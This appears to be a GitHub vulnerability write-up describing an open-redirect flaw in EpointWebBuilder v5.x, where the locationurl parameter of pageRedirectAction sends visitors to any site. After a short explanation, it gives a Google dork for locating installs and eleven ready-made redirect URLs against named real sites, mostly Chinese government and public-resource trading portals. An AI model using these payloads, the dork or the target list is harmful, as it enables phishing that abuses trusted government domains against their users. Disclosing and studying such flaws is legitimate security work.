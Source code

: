 # EpointWebBuilder_v5.x_VULN


## Step
Tests revealed the following links in the site:
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://xxx.cn&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4  
The locationurl specifies the location where the visitor will be redirected, and the infoid parameter is directly related to the path of the redirected resource.  
However, the infoid and locationurl parameters have no validation beyond this.  
Therefore, make the following link: 
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://google.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4 , 
where the infoid parameter must be an existing UUID.   
The system will redirect the visitor to any location according to the locationurl parameter, which is google.com in the above example.
302=>
https://www.google.com/#/jyxx/001006/001006001/20230825/4a1ba0e4-95b3-4e58-9b8c-7530247b82a4.html

This single url would allow a remote unauthenticated attacker to redirect users to arbitrary websites and conduct phishing attacks via a specially crafted URL.
## Example
google query: 
`inurl:“pageRedirectAction”`

1.	江苏省公共资源交易平台（EpointWebBuilder V5.1.0-sp1）
http://ggzy.taizhou.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4
2.	龙岩公共资源交易中心
https://ggzy.longyan.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=451f2a3e-2f0c-4271-bb30-38fe6a840441
3.	鞍钢智慧招投标平台
http://bid.ansteel.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=b46c9bfc-f2b4-4ea0-aac3-41d94aedf5bf
4.	喀什地区公共资源交易网
http://36.189.231.22/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=32c96e01-46e9-46e3-b8ae-859a4ce0971a
5.	和田公共资源交易网（EpointWebBuilder V5.4.1）
http://36.107.230.199:8081/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=18366a85-4578-4157-9a8f-7620e8467413
6.	莆田市人民政务
http://ggzyjy.xzfwzx.putian.gov.cn:8808/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=1ac797e4-25b7-4c08-8b69-a8113b1e6de0
7.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=279f97b6-3d3f-465a-806c-8904c26ad84c
8.	枣庄市公共资源交易网（EpointWebBuilder V5.4.1）
http://ggzy.zaozhuang.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=e37ce09f-420d-42b7-9079-302dc9b34aad
9.	芜湖市公共资源交易中心（EpointWebBuilder V5.4.2）
http://whsggzy.wuhu.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=38e7ee57-5a22-4c89-ba59-082f42991f01
10.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=5bd400a1-08fd-4230-a8c0-11e9ff084cd9
11. 克州公共资源交易网
http://kzggzyjy.com.cn:8024/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=39f1209f-a5ee-454a-8434-9ea8d7e12db3
